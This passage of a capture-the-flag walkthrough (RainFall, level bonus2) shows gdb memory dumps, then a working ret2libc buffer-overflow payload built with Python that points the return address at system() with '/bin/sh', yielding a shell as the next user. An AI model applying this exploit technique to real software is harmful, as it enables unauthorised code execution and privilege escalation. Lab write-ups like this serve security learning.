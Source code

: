 ```
------------ stack ------------
0xbffff4d0: 0xbffff4e0 0xbffff530 0x00000001 0x00000000
0xbffff4e0: 0xc3767948 0x20a4c3a4 0x69a4c370 0xc3a4c376
0xbffff4f0: 0x414120a4 0x42424141 0x43434242 0x44444343
0xbffff500: 0x45454444 0x46464545 0x47474646 0x48484747
0xbffff510: 0x49494848 0x4a4a4949 0x61614a4a 0x62626161
0xbffff520: 0x63636262 0x64646363 0x65656464 0x66666565
0xbffff530: 0x67676666 0x68686767 0x43006868 0x44444444
------------ EBP ------------
(gdb) x/wx $ebp
0xbffff528: 0x65656464
------------ Return value ------------
(gdb) x/wx $ebp + 0x4
0xbffff52c: 0x66666565
------------ EBP + 0xc ------------
(gdb) x/wx $ebp + 0xc
0xbffff534: 0x68686767
```

It appears that the plan worked as intended, as we can observe that the entire return value has been overwritten along with `$EBP+0xc`. The rationale behind changing `$EBP+0xc` is that it allows us to redirect the control flow to a new address of the `system` function while passing the `"/bin/sh"` parameter.

To complete the exploit, we just need to replace the value `0x66666565` (which is equivalent to `"eeff"`) in the buffer with the address of the `system` function `(0xb7e6b060)`, and replace the value `0x68686767` (which is equivalent to `"gghh"`) with the address of the string `"/bin/sh"` `(0xb7f8cc58)`. [Here are the steps to find the address of system() and /bin/sh](/level2/walkthrough.md).

I will now generate a string using Python, which will be passed as the second argument to the `bonus2` binary.

```sh
bonus2@RainFall:~$ ./bonus2 AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJ `python2 -c 'print("aaaabbbbccccddddee" + "\xb7\xe6\xb0\x60"[::-1] + "ffgg" + "\xb7\xf8\xcc\x58"[::-1] + "hh" )'`
Hyvää päivää AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJaaaabbbbccccddddee`��ffggX���hh
$ whoami
bonus3
$ cd ../bonus3
$ ls -la
total 17
dr-xr-x---+ 1 bonus3 bonus3   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 bonus3 bonus3  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 bonus3 bonus3 3530 Sep 23  2015 .bashrc
-rw-r--r--+ 1 bonus3 bonus3   65 Sep 23  2015 .pass
-rw-r--r--  1 bonus3 bonus3  675 Apr  3  2012 .profile
-rwsr-s---+ 1 end    users  5595 Mar  6  2016 bonus3
```
